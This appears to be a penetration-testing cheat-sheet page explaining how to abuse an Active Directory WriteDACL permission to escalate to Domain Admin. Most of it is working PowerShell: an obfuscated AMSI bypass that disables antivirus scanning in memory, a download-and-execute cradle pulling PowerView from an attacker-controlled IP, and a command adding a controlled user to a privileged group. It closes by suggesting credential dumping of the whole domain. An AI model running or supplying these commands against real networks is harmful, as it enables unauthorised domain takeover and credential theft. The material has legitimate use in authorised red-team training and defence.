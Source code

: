 # WriteDACL Exploitation

[[img/bloodhound-writedacl.png]]

We can see that the Domain Group "SQL Admin" have WriteDACL right against "WebAdmins" group. And WebAdmins group is member of Domain Admin, so if we are part of WebAdmins we are DA.

Assuming that we got an user inside the SQL Admin group, we can exploit the WriteDACL right to add an user that we already have access, to the WebAdmins group to become DA.

1. As user of SQL Admin group add an user that we already have access to, to the Web Admins group giving him all rights.

```bash
# As the user of SQL Admin group
C:\>powershell.exe -nop -exec bypass

PS C:\> $a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)

PS C:\> (new-object system.net.webclient).downloadstring('http://192.168.x.x:8080/PowerView.ps1') | iex

PS C:\> Add-DomainGroupMember -Identity 'WEBADMINS' -Members 'V0lk3n' -Rights all
```

2. Verify that V0lk3n is part of WebAdmins group.

```PowerShell
PS C:\> Get-DomainUser -Identity V0lk3n
Get-DomainUser -Identity will
...
givenname             : V0lk3n
memberof              : CN=WebAdmins,OU=TGroups,DC=sinhack,DC=com
...
```

3. Now as DomainAdmin we can fire up SecretDump or whatever and pwn all the domain.

